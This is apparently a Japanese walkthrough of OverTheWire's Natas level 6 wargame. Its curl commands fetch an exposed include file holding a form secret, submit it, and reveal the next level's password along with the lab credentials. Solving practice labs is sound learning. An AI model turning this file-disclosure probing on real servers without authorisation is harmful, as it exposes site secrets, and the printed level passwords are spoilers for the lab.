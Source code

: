 # NATAS6

- Username: natas6
- Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
- URL: http://natas6.natas.labs.overthewire.org

```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">


<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
ヒントに
```
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```
と書いてあります。  
ブラウザで`http://natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1@natas6.natas.labs.overthewire.org/index-source.html`にアクセスします。
```html
...
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
...
```
コードを読むと`$secret`の値が必要であることがわかります。  
そこで、`include/secret.inc`を見てみます。
```
$ curl -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
```
```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
予想通り、`$secret`の値があることがわかりました。  
`secret`に`FOEIUWGHFEEUHOFUOIU`、`submit`に`Submit`を渡します。
```
$ curl -X POST \
       -d "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit" \
       -u natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 \
          http://natas6.natas.labs.overthewire.org
```
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
これでpassword(`7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`)を得ることができました。
